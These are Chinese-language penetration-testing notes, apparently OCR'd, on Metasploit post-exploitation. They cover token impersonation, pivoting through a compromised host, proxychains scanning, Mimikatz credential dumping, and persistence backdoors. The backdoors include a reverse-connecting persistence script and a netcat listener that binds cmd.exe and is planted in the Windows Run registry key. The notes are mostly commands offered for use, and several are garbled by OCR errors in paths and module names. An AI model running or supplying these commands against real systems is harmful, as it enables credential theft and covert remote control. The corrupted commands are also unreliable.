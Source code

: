 ## 令牌假冒

1. 令牌假冒简介

假冒令牌可以假冒一个网络中的另一个用户进行各种操作。令牌包括登录会话的安全信息，如用户身份识别、用户组和用户权限。当一个用户登录Windows系统时，它被给定一个访问令牌作为它认证会话的一部分。例如，一个入侵用户可能需要以域管理员处理一个特定任务，当它使用令牌便可假冒域管理员进行工作。

2. Windows安全相关概念

Session、Windows Station、Desktop、Login Session（不同账号不同，权限也不同）

3. Token简介

（1）与进程相关联，进程创建时根据LoginSession分配对应Token，含有该进程用户账号、组信息、权限信息等。

（2）用户每次登录，产生LoginSession分配对应Token。

（3）访问资源时提交Token进行身份验证，类似于Web Cookies。

（4）Delegate Token：交互登录会话。

（5）Impersonate Token：非交互登录会话。

4. Incognito
   + 独立软件，被集成到msf的meterpreter中
   + 不能获取账号密码，窃取Token将自己维护装成合法用户
   + 适用于域环境下提权渗透多操作系统

## 内网跳板

![](picture\tiaoban.png)

## 跳板攻击

1. Pivoting

* 利用已经被入侵的主机作为跳板来攻击网络中的其他系统
* 访问由于路由问题而不能直接访问的内网系统

2. 自动路由

* Run autoroute -s 192.168.102.0/24
* Run post/multi/manage/autoroute
* 利用win7攻击内网服务器
* 扫描内网网络:
  * Run post/windows/gather/arp_scanner rhosts=192.168.102.0/24
  * use auxiliary/scanner/portscan/tcp

![](picture\02.png)

## Proxychains代理设置

1. Socket代理 

* auxiliary/server/socket4

2. ProxyChains

* ProxyChains是为GNU\Linux操作系统而开发的工具，任何TcP连接都可以通过TOR或者sOcKS4, SoCKS5,HTTP /HTTPs路由到目的地。在这个通道技术中可以使用多个代理服务器。除此之外提供匿名方式，诸如用于中转跳板的应用程序也可以用于对发现的新网络进行直接通信。
* proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-mso8-067.nse 192.168.103.128

## Mimikatz

1. 介绍

Mimikatz是一款后渗透测试工具。它能够从Windows认证(LSASs)的进程中获取内存，并且获取明文密码和NTLM哈希值的工具。已被metasploit集成到meterpreter中作为一个脚本，允许方便地访问它一系列的特性，而不需要上传任何文件到目标机器上。

2. 相关命令

* 导出Hash和认证信息:msv
* 导出Kerberos认证信息:Kerberos
* 获取本地用户信息及密码: wdigest
* Mimikatz_command -f samdump:hashes
* Mimikatz_command -f sekurlsa:searchPasswords
* Mimikatz_command -f handle::list
* Mimikatz_command -f service::list
* Mimikatz_command -f crypto:listProviders
* Mimikatz_command -f nogpo::cmd

## 后门植入

1. 为什么要植入后门

* Meterpreter Shell运行于内存中，重启即失效
* 避免重复性的渗透工作
* 漏洞修复后仍旧可就维持控制

2. Meterpreter后门：Metsvc

* 通过服务启动
* Run metsvc -A     # 设定端口，上传后门文件

3. Meterpreter后门：Persistence

* 通过启动型启动
* 特性：定期会连、系统启动时回连、自动运行
* Run persistence-A- -S-U-i 60-p 4321 -r 192.168.101.111

4. NC后门

   （1）上传nc：Upload /root/nc.exe C:\windows\\system32

   （2）修改注册表：

   * 枚举注册表键值：reg enumkey -k HKLM\\softwarel\microsoft\lwindows\\currentversion\run
   * 在当前主键下增加一个nc键值：reg setval -k HKLM\\software' \microsoft\lwindowsllcurrentversion\\run -V nc -d
     'C:\windows\system32\nc.exe -Ldp 444 -e cmd.exe'
   * 查看nc键值：reg queryval -k HKLM\\software\\microsoft\lwindows\\currentversion\\Run -V nc

